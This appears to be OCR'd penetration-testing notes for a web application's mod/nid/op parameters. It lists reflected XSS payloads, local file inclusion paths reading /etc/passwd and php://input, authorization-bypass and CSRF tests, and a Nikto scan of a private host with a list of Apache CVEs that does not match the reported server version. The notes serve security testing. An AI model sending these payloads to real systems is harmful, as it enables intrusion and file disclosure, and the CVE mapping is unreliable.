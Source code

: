 xss:
/?mod=node&nid=<script>alert('XSS')</script>&op=view` – Test for reflected XSS on the `nid` parameter.
/?mod=node&nid=<img src="x" onerror="alert(1)">&op=view` – Test for XSS using the `img` tag with an error handler.
/?mod=node&nid=1"><script>alert(1)</script>&op=view` – Test for script injections in the HTML response.

Testing for Local File Inclusion:
- `/?mod=node&nid=../../../../etc/passwd&op=view` – Try including system files like `/etc/passwd` (on Unix systems) to check if they can be read by the server.
- `/?mod=node&nid=../../../../Windows/System32/drivers/etc/hosts&op=view` – Test for file inclusion on Windows systems by referencing the `hosts` file.
- `/?mod=node&nid=php://input&op=view` – Try to include PHP input streams to potentially gain access to data.

**Testing for Authorization Bypass**:
Some applications do not correctly enforce permissions on resources. Try changing the `mod` or `nid` parameters to see if you can access restricted resources.

- `/?mod=admin&nid=1&op=view` – Try to access an admin resource by changing `mod=node` to `mod=admin`.
- `/?mod=node&nid=1&op=delete` – Try modifying the `op` to `delete` to see if you can delete resources.
- `/?mod=user&nid=1&op=view` – Test if user-specific content can be accessed by changing `mod=node` to `mod=user`.

 **Testing for Cross-Site Request Forgery (CSRF)**:
CSRF attacks occur when an attacker tricks the user into making an unwanted request to a web application where they are authenticated.

- Submit the form using a tool like Burp Suite to intercept and modify the request to include a malicious request. This is done in a real-world scenario by changing the `nid` value or performing an operation like `op=delete` on behalf of the user.

conclusions:
nothing ever changes


nikto -h 10.1.22.121
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.1.22.121
+ Target Hostname:    10.1.22.121
+ Target Port:        80
+ Start Time:         2025-03-13 14:16:26 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.57 (Unix)
### 1. **CVE-2021-42013 - Path Traversal Vulnerability**
- **Description**: Apache HTTP Server 2.4.49 and 2.4.50 (released before 2.4.51) contain a path traversal vulnerability due to improper sanitization of URLs. This can allow an attacker to access sensitive files or directories on the server.
- **Fix**: Ensure Apache is updated to at least 2.4.51 to mitigate this vulnerability.
### 2. **CVE-2021-41773 - URL Encoding Vulnerability**
- **Description**: Apache HTTP Server 2.4.49 contains a vulnerability in how it handles URL encoding, leading to possible directory traversal attacks. An attacker can exploit this to access arbitrary files on the server.
- **Fix**: Update to Apache version 2.4.50 or later.
### 3. **CVE-2019-0211 - Privilege Escalation**
- **Description**: In Apache 2.4.x (especially 2.4.17-2.4.38), there is a flaw related to the way Apache handles child processes, which could allow an attacker to escalate privileges on the server.
- **Fix**: Update to the latest version of Apache HTTP Server (post 2.4.38).
### 4. **CVE-2020-11993 - Memory Corruption**